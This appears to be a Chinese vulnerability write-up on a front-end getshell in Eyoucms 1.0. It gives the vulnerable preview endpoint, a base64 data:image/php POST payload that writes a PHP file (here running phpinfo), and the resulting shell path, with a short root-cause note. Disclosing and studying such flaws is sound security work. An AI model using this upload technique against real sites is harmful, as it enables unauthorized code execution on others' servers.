






# Eyoucms 1.0 前台getshell

> 原文：[https://www.zhihuifly.com/t/topic/2916](https://www.zhihuifly.com/t/topic/2916)

# Eyoucms 1.0 前台getshell

## 一、漏洞简介

官网：http://www.eyoucms.com/download/
Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

## 二、漏洞影响

## 三、复现过程

老样子：先讲如何利用

```
url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview `构造: <?php phpinfo;` 
```



```
post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw== 
```



Shell: http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php





### 原理分析

漏洞文件： eyoucms1.0\application\api\controller\Uploadify.php
漏洞函数：preview()





这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？
带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的 表示data:image/ 居然还可以不是图片？
好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/ 只能是图片。

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh